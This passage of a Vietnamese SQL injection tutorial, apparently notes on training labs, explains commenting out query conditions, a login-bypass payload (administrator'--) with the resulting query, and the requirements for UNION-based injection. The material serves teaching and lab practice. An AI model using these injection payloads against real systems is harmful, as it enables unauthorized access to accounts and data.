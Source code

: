 Cùng lúc đó `-- ` cũng tiến hành comment diều kiện `AND released = 1`. Nên cuối cùng tất cả các sản phẩm của `products` sẽ được hiển thị toàn bộ.

---

### Lật đổ logic ứng dụng
Cùng là một lỗ hổng SQLi thay đổi các truy vấn gốc giống [Lấy dữ liệu ẩn](#lấy-dữ-liệu-ẩn) nhưng [Lật đổ logic ứng dụng](#lật-đổ-logic-ứng-dụng) lại can thiệp vào logic của ứng dụng để đạt được mục đích.

### Ví dụ
**Lab: SQL injection vulnerability allowing login bypass**

Trong phần đăng nhập với nội dung:

```yaml
Username: user1
Password: abc123
```
<p align="center"><b>🠋 truy vấn SQL 🠋</b></p>

```sql
SELECT * FROM users WHERE username = 'user1' AND password = 'abc123'
```
Để đăng nhập thì điều kiện `WHERE username = 'user1' AND password = 'abc123'` sẽ phải đúng `username` và `password`.

Sau đó ta chỉ cần sửa lại:

```yaml
Username: administrator'-- 
Password: abc123
```

<p align="center"><b>🠋 truy vấn SQL 🠋</b></p>

```sql
SELECT * FROM users WHERE username = 'administrator'-- ' AND password = 'abc123'
```
Là ta có thể đăng nhập vào tài khoản `administrator` và bỏ qua điều kiện mật khẩu.

# Tấn công SQLi sử dụng mệnh đề UNION

Nếu ứng dụng bị SQL Injection và hiển thị kết quả truy vấn, kẻ tấn công có thể dùng UNION để ghép truy vấn khác và lấy dữ liệu từ bảng khác.

Để sử dụng được `UNION` phải đáp ứng được 2 yêu cầu:

* Các truy vấn riêng lẻ phải trả về cùng số một cột.

* Các loại dư liệu trong mỗi cột phải tương thích giữa các truy vấn riêng lẻ.

## Điều kiện để thực hiện được một cuộc tấn công SQLi với UNION

### Xác định có bao nhiêu cột trả về trong truy vấn gốc
